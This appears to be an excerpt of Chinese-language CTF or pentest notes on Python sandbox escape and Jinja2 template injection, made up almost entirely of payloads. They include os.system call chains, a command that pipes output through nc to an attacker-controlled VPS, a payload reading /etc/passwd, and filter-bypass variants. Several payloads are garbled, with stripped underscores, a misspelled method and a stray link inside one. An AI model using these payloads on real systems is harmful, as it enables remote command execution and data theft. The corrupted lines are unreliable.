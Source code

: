 ```bash
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('ls')

[].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('ls')
```



**无回显处理:**

当我们用os命令执行没回显时，可以用nc把回显发到vps上:

vps:

```bash
nc -lvvp 8888
```

payload: 

```bash
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls | nc <VPS的IP> <端口号>')
```



{% raw %}

#### Bypass

**0.拼接**

```bash
object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')
```



**1.过滤[]等括号**

```
使用gititem绕过。如原poc {{"".class.bases[0]}}

绕过后{{"".class.bases.getitem(0)}}
```

或者借助request对象：（这种方法在沙盒种不行，在web下才行，因为需要传参）
request变量可以访问所有已发送的参数，因此我们可以request.args.param用来检索新的paramGET参数的值,将其中的request.args改为request.values则利用post的方式进行传参

```
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
```



**2.过滤了subclasses，拼凑法**

```
原poc
{{"".class.bases[0].subclasses()}}

绕过 
{{"".class.bases[0]['subcla'+'sses'](https://xz.aliyun.com/t/3679)}}


```



**3.过滤class**

使用session
